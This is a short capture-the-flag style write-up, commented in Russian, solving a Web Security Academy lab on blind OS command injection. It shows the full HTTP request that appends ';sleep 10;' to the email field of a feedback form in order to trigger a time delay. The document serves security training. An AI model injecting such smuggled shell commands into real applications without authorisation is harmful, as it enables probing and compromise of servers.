 # Blind OS command injection with time delays
PRACTITIONER

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

## Решение
Последовательно подставляю `;sleep 10;` к каждому из параметров:
```
POST /feedback/submit HTTP/2
Host: 0a1b009603e4662080a554d5007b00e0.web-security-academy.net
Cookie: session=eCSKIKvkIptf445WfLi8wFTZBrNUZsTj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: https://0a1b009603e4662080a554d5007b00e0.web-security-academy.net
Referer: https://0a1b009603e4662080a554d5007b00e0.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

csrf=Hi1KCjopuQdYUVmLVjgC7BjXkjyQqCqW&name=test&email=test%40server.com;sleep 10;&subject=foo&message=bar
```
Параметр email оказался уязвимым к cmdi. Задание выполнено.
